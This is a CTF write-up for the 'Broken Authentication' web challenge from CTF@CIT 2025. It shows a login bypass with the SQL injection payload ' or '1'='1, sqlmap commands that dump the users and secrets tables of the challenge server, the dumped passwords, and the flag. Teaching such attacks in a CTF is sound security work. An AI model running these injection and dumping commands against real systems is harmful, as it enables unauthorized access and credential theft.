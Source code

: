 ```yaml
---
name: Broken Authentication (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Broken Authentication (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Broken Authentication

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=6 "Breaking Authentication (CIT CTF)")

## Description

> Say my username.

## Solution

### Part 1: SQL Injection (Auth Bypass)

Basic login page. When we submit the username as `''` it returns the following error.

{% code overflow="wrap" %}

```bash
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1 in /var/www/html/index.php:23
Stack trace:
#0 /var/www/html/index.php(23): mysqli-&gt;query('SELECT * FROM u...')
#1 {main}
  thrown in <b>/var/www/html/index.php
```

{% endcode %}

Submit username and password as `' or '1'='1` and bypass the login panel.

### Part 2: SQLi (DB Enumeration)

The admin panel says `As you can probably tell, this page is currently under construction.`

Checked the source, cookies, technologies etc but doesn't appear to be anything of use. Perhaps the flag is in the username/password and we need to return to the SQLi.

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch
```

{% endcode %}

It finds the SQLi, so we dump the creds:

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T users --dump

+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

{% endcode %}

Tried to login with each account in case the admin UI changed, but it did not.

Let's see if there's any other tables.

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -D app --tables

+---------+
| secrets |
| users   |
+---------+
```

{% endcode %}

Nice! `secrets` sounds pretty promising 👀

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58001/index.php --data "username=cat&password=meow&login=Login" --batch -T secrets --dump

+--------+-----------------------+
| name   | value                 |
+--------+-----------------------+
| flag   | CIT{36b0efd6c2ec7132} |
+--------+-----------------------+
```

{% endcode %}

Flag: `CIT{36b0efd6c2ec7132}`
